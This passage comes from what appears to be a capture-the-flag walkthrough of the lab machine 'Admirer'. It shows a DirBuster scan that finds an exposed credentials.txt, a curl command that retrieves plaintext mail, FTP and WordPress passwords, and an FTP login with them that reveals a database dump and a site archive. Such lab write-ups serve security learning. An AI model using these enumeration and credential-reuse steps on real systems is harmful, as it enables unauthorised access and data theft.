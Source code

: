 * `/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

The `.txt` extension was fruitful.

```
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Tue May 05 04:23:36 EDT 2020
--------------------------------

http://10.10.10.187:80
--------------------------------
Directories found during testing:

Dirs found with a 403 response:

/admin-dir/

--------------------------------
Files found during testing:

Files found with a 200 responce:

/admin-dir/contacts.txt
/admin-dir/credentials.txt
```

In `credentials.txt`, we find the FTP credentials.

```
$ curl http://10.10.10.187/admin-dir/credentials.txt
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

## FTP Exfiltration

With the FTP credentials, let's log in and review the files.

```
$ ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02 21:24 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03 21:20 html.tar.gz
```
